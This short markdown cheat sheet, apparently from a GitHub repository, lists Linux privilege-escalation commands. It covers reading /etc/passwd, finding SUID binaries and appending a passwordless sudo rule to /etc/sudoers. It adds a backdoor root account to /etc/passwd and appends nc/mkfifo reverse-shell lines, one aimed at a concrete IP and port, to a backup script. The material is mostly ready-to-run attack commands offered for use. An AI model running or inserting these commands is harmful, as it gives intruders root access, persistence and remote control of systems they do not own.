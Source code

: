 # Linux privilege escalation

## Identify privileges
```bash
whoami
```

```bash
id
cat /etc/passwd
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Sudo
```bash
printf '#!/bin/bash\n echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > crontjob.sh

sudo -l
sudo su
crontab -l
```


## Persistence
### SSH add key
Create a ssh key
```bash	
openssl passwd [pass]
```

Add SSH key to passwd
```bash
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc [IP] [port] >/tmp/f" >> user_backups.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.119.168 1345 >/tmp/f" >> user_backups.sh
```
